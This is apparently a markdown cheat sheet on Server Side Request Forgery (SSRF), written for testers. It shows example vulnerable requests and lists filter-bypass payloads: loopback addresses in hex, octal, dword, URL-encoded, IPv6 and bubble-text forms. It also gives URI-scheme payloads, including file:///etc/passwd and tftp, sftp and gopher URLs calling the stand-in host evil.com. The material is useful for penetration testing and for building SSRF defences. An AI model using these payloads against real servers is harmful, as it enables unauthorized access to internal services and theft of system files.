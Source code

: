 # Server Side Request Forgery (SSRF)

## Introduction
Server Side Request Forgery is a web application vulnerability that allows attackers to make outgoing requests originating from the vulnerable server

## Where to find
Usually it can be found in the request that contain request to another url, for example like this
```
POST /api/check/products HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Referer: https://example.com

urlApi=http://192.168.1.1%2fapi%2f&id=1
```

or

```
GET /image?url=http://192.168.1.1/
Host: example.com
```

## How to exploit
1. Basic payload
```
http://127.0.0.1:1337
http://localhost:1337
```

2. Hex encoding
```
http://127.0.0.1 -> http://0x7f.0x0.0x0.0x1
```

3. Octal encoding
```
http://127.0.0.1 -> http://0177.0.0.01
```

4. Dword encoding
```
http://127.0.0.1 -> http://2130706433
```

5. Mixed encoding
```
http://127.0.0.1 -> http://0177.0.0.0x1
```

6. Using URL encoding
```
http://localhost -> http://%6c%6f%63%61%6c%68%6f%73%74
```

7. Using IPv6
```
http://0000::1:1337/
http://[::]:1337/
```

8. Using bubble text
```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Use this https://capitalizemytitle.com/bubble-text-generator/
```

## How to exploit (URI Scheme)
1. File scheme
```
file:///etc/passwd
```

2. Dict scheme
```
dict://127.0.0.1:1337/
```

3. FTP scheme
```
ftp://127.0.0.1/
```

4. TFTP scheme
```
tftp://evil.com:1337/test
```

5. SFTP scheme
```
sftp://evil.com:1337/test
```

6. LDAP scheme
```
ldap://127.0.0.1:1337/
```

7. Gopher scheme
```
gopher://evil.com/_Test%0ASSRF
```
## References
* [Vickie Li](https://vickieli.medium.com/bypassing-ssrf-protection-e111ae70727b)